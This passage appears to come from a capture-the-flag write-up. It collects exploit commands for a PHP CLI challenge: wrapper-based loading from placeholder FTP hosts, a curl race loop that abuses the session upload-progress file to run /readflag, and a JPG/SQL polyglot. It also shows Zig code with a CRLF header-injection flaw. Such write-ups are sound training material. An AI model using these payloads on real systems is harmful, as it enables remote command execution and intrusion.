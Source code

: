 `file_exists` accepts all sorts of wrappers (:
@shvedity
```
 /cli/cli.php?-c+ftp://MYHOST/config.xml+-m+backup
```

combination of previous two
@worstjdub
```
/cli/cli.php?--mode+import+--filename+ftp://ANONYMOUSFTPHERE.WHATEVER/?;/readflag
```


Pretty crazy one, write PHP session temporary file with mysql import command syntax, and then win race to import it via cli
@downgrade
```
while [ 1 ]; do curl http://94.237.52.105:44004 -H 'Cookie: PHPSESSID=xxxxx' -F 'PHP_SESSION_UPLOAD_PROGRESS=test \! /readflag>/www/uploads/flag'  -F 'file=@/etc/passwd'; done
```

```
while [ 1 ]; do curl http://94.237.52.105:44004/cli/cli.php?-m+import+-f+/tmp/sess_xxxxx; done
```

similar concept, a jpg/sql polyglot
@worty
```
printf "\xff\xd8\xff\xc0 \! /readflag > /www/uploads/flag ;" > a.jpg
```

## OmniWatch

This challenge was my first time encountering Varnish Proxy, so most of the time was spent trying to understand it's data flow and how the DSL worked.

The challenge had Varnish routing requests to two different backends depending on path. One of these was written in Zig and had a pretty trivial CRLF injection on the `decodedDeviceId`.

```zig
...

fn oracle(req: *httpz.Request, res: *httpz.Response) !void {
    var gpa = std.heap.GeneralPurposeAllocator(.{}){};
    const allocator = gpa.allocator();

    const deviceId = req.param("deviceId").?;
    const mode = req.param("mode").?;
    const decodedDeviceId = try std.Uri.unescapeString(allocator, deviceId);
    const decodedMode = try std.Uri.unescapeString(allocator, mode);

    const latitude = try randomCoordinates();
    const longtitude = try randomCoordinates();

    res.header("X-Content-Type-Options", "nosniff");
    res.header("X-XSS-Protection", "1; mode=block");
    res.header("DeviceId", decodedDeviceId); 

...
```
